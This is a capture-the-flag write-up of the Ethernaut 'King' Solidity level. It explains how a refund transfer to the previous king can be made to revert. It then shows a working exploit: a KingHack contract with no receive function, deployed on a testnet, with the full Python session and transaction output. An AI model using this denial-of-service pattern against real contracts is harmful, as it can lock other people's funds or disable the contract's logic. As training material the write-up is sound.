 # 09 - King

## Challenge

The contract below represents a very simple game: whoever sends it an amount of ether that is larger than the current prize becomes the new king. On such an event, the overthrown king gets paid the new prize, making a bit of ether in the process! As ponzi as it gets xD

Such a fun game. Your goal is to break it.

When you submit the instance back to the level, the level is going to reclaim kingship. You will beat the level if you can avoid such a self proclamation.

```js
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.0;

contract King {

  address king;
  uint public prize;
  address public owner;

  constructor() payable {
    owner = msg.sender;  
    king = msg.sender;
    prize = msg.value;
  }

  receive() external payable {
    require(msg.value >= prize || msg.sender == owner);
    payable(king).transfer(msg.value);
    king = msg.sender;
    prize = msg.value;
  }

  function _king() public view returns (address) {
    return king;
  }
}
```

## Summary

The contract has a `receive` function. Upon called, if the value we send is larger than the current `prize`, we will become the new `king` and `prize` is updated. However, when we submit the instance, the level will reclaim kingship, and since `msg.sender == owner` will be evaluated true (the `owner` cannot be changed), we will lose the kingship.

The goal here is to not let `receive` execute successfully so that we can keep the kingship. Key line is `payable(king).transfer(msg.value);`. Basically, when a new king is claimed, the contract will send new value to the old `king` address. If we can make the old `king` address not able to receive the value, we can keep the kingship because the call will be reverted. Therefore, we can write an attack contract that does not implement `receive` or `fallback` function. As a result, when the contract tries to send value to our contract, it will fail and the call will be reverted.

## Walkthrough

```py
>>> from cheb3 import Connection
>>> from cheb3.utils import compile_sol
>>> conn = Connection("https://goerli.infura.io/v3/<key>")
>>> account = conn.account("<priv_key>")
>>> contract_addr = '0xB30ab7E06dfAfF1a08B45fCb4f1690609741E108'
```

We first deploy a contract that has no `receive` or `fallback`:

```py
>>> abi, bytecode = compile_sol('''
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.0;

contract KingHack {
    function hack(address payable _to) external payable {
        (bool success, ) = _to.call{value: msg.value}("");
        require(success, "Call failed");
    }
}
''',
solc_version="0.8.17",
base_path="Ethernaut/node_modules/"
)['KingHack']
>>> 
>>> contract = conn.contract(account, abi=abi, bytecode=bytecode)
>>> contract.deploy()
2023-06-13 22:58:57.517 | DEBUG    | cheb3.contract:deploy:94 - Deploying contract ...
2023-06-13 23:00:28.509 | INFO     | cheb3.contract:deploy:99 - The contract is deployed at 0x1bD76f0a04178cA59e0bDb11DD2Fcfea313ED369
```

Next, we know that

```js
> await contract.prize().then(v => v.toString())
'1000000000000000'
```

So at least 1000000000000000 wei is required to claim kingship. We now call `hack` with this value:

```py
>>> contract.functions.hack(contract_addr).send_transaction(value=1000000000000000)
2023-06-13 23:01:24.951 | INFO     | cheb3.contract:send_transaction:236 - (0x1bD76f0a04178cA59e0bDb11DD2Fcfea313ED369).hack transaction hash: 0x0bfd4bc0d3c2c3bc50bfd1519fa9d1748aa32cfa42f64a2aaac1fb38fe07f7f2
AttributeDict({'blockHash': HexBytes('0x7dcea88c6fb4ec3ec42a8e8a0601af394a5cc92bd66e366ebfddc66beb77e787'), 'blockNumber': 9175804, 'contractAddress': None, 'cumulativeGasUsed': 8058927, 'effectiveGasPrice': 18785058124, 'from': '0x0b26C24d538e3dfF58F7c733535e65a6674FB3aB', 'gasUsed': 48347, 'logs': [], 'logsBloom': HexBytes('0x00..00'), 'status': 1, 'to': '0x1bD76f0a04178cA59e0bDb11DD2Fcfea313ED369', 'transactionHash': HexBytes('0x0bfd4bc0d3c2c3bc50bfd1519fa9d1748aa32cfa42f64a2aaac1fb38fe07f7f2'), 'transactionIndex': 41, 'type': 0})
```

Now,

```js
> await contract._king()
'0x1bD76f0a04178cA59e0bDb11DD2Fcfea313ED369'
```

Which matched our deployed contract address. And we expect that when we submit the instance, the level will try to reclaim kingship, but fail because `KingHack` cannot receive the value.

Finally, submit the instance to pass the level.